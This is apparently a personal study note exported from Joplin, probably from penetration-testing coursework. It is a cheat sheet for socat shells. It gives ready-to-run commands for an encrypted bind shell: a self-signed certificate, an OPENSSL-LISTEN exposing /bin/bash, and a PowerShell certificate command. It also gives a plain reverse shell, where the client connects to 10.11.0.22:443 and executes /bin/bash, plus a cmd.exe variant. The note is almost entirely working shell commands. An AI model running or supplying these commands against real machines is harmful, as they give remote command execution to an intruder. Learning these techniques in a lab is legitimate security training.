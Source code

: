 Socat

<ins>SOCAT</ins>

1\. Encrypted Bind Shell - Kali opens as listener

On Kali 1st:

> openssl req -newkey rsa:2048 -nodes -keyout bind\_shell.key -x509 -days 362 -out bind\_shell.crt
> 
> cat bind\_shell.key bind\_shell.crt > bind_shell.pem
> 
> sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

Then on the other machine:

> socat - OPENSSL:10.11.0.4:443,verify=0

Install Openssl, or use powershell (Not tested)

> New-SelfSignedCertificate -Type Custom -Subject "Offsec" -KeyExportPolicy Exportable -KeyUsage DigitalSignature -KeyAlgorithm RSA -KeyLength 2048 -CertStoreLocation "Cert:\\CurrentUser\\My"

For reverse shell, fork STDOUT for Kali, and the machine has to change to socat OPENSSL:IP:443,verify=0 exec:cmd.exe,pipes

2\. Reverse Shell -

LISTENER -

> socat -d -d TCP4-LISTEN:443 STDOUT

Client -

> socat TCP4:10.11.0.22:443 EXEC:/bin/bash

id: 0d70f2c0c0de487c985390d1315593a8
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T06:53:47.593Z
updated_time: 2022-01-20T06:54:55.571Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T06:53:47.593Z
user_updated_time: 2022-01-20T06:54:55.571Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1